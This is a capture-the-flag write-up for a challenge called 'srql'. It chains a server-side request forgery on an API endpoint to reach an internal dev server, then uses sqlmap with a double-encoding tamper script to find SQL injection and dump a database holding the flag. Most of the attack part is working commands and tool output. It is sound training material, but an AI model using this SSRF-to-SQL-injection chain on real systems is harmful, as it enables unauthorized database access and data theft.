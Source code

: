 # srql ctf solution
Upon visiting http://srql.d.ctff.fun/ you're greeted with the following index page:

![Index](/img/index_page.png?raw=true "")


Upon inspecting the page / viewing the source we can see that the following HTML / JS is commented out:

```html
<!-- 
  <script>
    $.ajax({url: "api.php?call=changelog", success: function(result){
      $("#news").html(result);
    }});
</script>
-->
```

Jquery's `ajax()` method performs an asynchronous HTTP request, so we visit that endpoint: http://srql.d.ctff.fun/api.php?call=changelog

The response:

```
10/1/2019 - Our newly launched development server is up now at: http://devrandom.corp.d.ctff.fun:8080/
9/30/2019 - Fixed bug in API, some chars in parameters may now need to be encoded more than once to prevent tamper'ing
```

We see the development server "leaked" in the changelog, so attempt to resolve it: 

```
bork@doggos:~# host devrandom.corp.d.ctff.fun
devrandom.corp.d.ctff.fun has address 172.18.0.3
```

As we can see it's an internal ip address, pointing to something internally. A server-side request forgery vulnerability would allow us to hit this developer site. 

Setting the `?call=` parameter at http://srql.d.ctff.fun/api.php to an arbitrary URL: http://example.com

![example.com](/img/ssrf_example.png?raw=true "")

As we can see, the application  is actually making HTTP requests to any url we provide. Let's set it to the developer server we found in the changelog:

![DevServer](/img/dev_server_index.png?raw=true "")

In the response we see a form that submits via GET to `debug.php?name=developers`. Let's append it to the developer server URL: http://srql.d.ctff.fun/api.php?call=http://devrandom.corp.d.ctff.fun:8080/debug.php?name=developers

The page just responds with: `bobby tables`. That's a classic SQL injection joke, let's try seeing what happens if we add an ' to the end of the `?name=` parameter.

```
no results for query: SELECT name FROM developers'
```

It's clearly building SQL queries from our input, so lets try using sqlmap to dump the database:

Since we are using the SSRF to hit this internal server, we need to use the `-p` flag to specify the parameter we want to test. sqlmap will otherwise only attempt to inject the `?call=` parameter. We also will need to use the "chardoubleencode" tamper script – our payloads will need to be double url-encoded. If it's only encoded once, the server will decode them and recognize them as parameters to `http://srql.d.ctff.fun/api.php` and they won't be sent along to `http://devrandom.corp.d.ctff.fun:8080/debug.php` which is where we want them to be.

Let's try it:
```
bork@doggos:~#  python2 sqlmap.py -u "http://srql.d.ctff.fun/api.php?call=http://devrandom.corp.d.ctff.fun:8080/debug.php?name=developers*" --tamper=chardoubleencode -p 'name=' --dbs

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.3.4.9#dev}
|_ -| . [']     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

-- snip --
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 96 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: UNION query
    Title: Generic UNION query (NULL) - 1 column
    Payload: http://srql.d.ctff.fun:80/api.php?call=http://devrandom.corp.d.ctff.fun:8080/debug.php?name=developers UNION ALL SELECT CONCAT(CONCAT('qpxzq','InZAMqHlCKAHvNfKiBehKlNjYagoTOfAOUcahufy'),'qpkxq')-- ilEo
---
[21:00:07] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[21:00:07] [INFO] testing MySQL
[21:00:07] [INFO] confirming MySQL
[21:00:07] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.0
[21:00:07] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] randomcorp

[21:00:07] [INFO] fetched data logged to text files under '/Users/cdl/.sqlmap/output/srql.d.ctff.fun'

[*] ending @ 21:00:07 /2019-10-09/
```

It's injectable! Let's dump the "randomcorp" database with the sqlmap's `--dump` flag:

```
bork@doggos:~#  python2 sqlmap.py -u "http://srql.d.ctff.fun/api.php?call=http://devrandom.corp.d.ctff.fun:8080/debug.php?name=developers*" --tamper=chardoubleencode -p 'name='  -D randomcorp --dump

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.3.4.9#dev}
|_ -| . [(]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

-- snip --

[21:04:44] [INFO] fetching columns for table 'developers' in database 'randomcorp'
[21:04:44] [INFO] fetching entries for table 'developers' in database 'randomcorp'
Database: randomcorp
Table: developers
[1 entry]
+--------------+-------------------------+
| name         | secret                  |
+--------------+-------------------------+
| bobby tables | dsu{w0w_U_rlly_p1v0ted} |
+--------------+-------------------------+
```

Flag: `dsu{w0w_U_rlly_p1v0ted}`